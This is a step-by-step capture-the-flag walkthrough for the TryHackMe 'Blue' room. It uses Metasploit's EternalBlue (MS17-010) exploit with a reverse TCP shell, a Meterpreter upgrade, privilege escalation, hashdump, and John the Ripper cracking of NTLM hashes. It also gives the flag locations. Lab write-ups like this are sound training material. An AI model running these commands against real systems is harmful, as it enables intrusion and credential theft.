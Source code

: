 [Blue Room Link](https://tryhackme.com/room/blue)

We're going to be using Metasploit for this CTF.

RECON:
1. `nmap -sV -vv --script vuln TARGET_IP`
2. Discover 3 open ports, 2 vulnerabilities `MS17-010` `MS12-020`
GAIN:
3. Launch metasploit
4. `search ms17-010` classic eternalblue SMB exploit
5. `show options` and set them for `RHOSTS`
6. `set payload windows/x64/shell/reverse_tcp` 
7. `run`
ESCALATE:
8. Research online how to convert a shell to meterpreter shell in metasploit.
9. We're going have to use a **post exploitation module**
10. We're going to be using `shell_to_meterpreter` module
11. `show options` set for `LHOST` and `SESSION`
12. `run` the post exploit, it should create a new session for us
13. `sessions -i ID` and then run `getsystem` to confirm if we escalated
14. another way to confirm is run `shell` then `whoami` and it should say system
15. background with `CTRL + Z` once confirmed
16. now, show the running processes by `ps` then locate bottom process that runs at `NT AUTHORITY\SYSTEM` and note down the PID
17. `migrate <PID>` to that process. (unstable and may fail a few times)
CRACK:
18. `hashdump` once migrated to get the non-default user's password.
19. `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jon_hash.txt` make sure you stored the NTLM password hash in a file, this should crack it
Find Flags!
20. Flag1 can be found if you navigate to `C:/` and `ls`
21. Flag2 was hinted to be where 'windows password stored' so it's `c:\Windows\System32\config\` but not `SAM` file as you can't cd to that
22. Flag3 was stored in documents, I found it by simply `search -f flag3.txt` but it was hinted to be in admin's documents `c:\Users\Jon\Documents\flag3.txt`

